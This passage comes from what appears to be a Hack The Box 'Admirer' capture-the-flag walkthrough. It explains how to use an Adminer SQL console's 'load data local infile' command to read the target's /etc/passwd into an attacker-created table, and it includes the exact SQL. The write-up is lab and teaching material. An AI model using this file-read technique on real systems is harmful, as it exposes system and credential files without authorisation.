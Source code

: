 ![](/images/HTB_Admirer/HTB_Admirer_5.png)

From here click "SQL command" and use the "load data local" commands to export contents of local files into the "test" table we created inside the database we create and just connected to. Here's the first one I tried:

{% highlight mysql %}
load data local infile '/etc/passwd'
into table test
fields terminated by "/n"
{% endhighlight %}
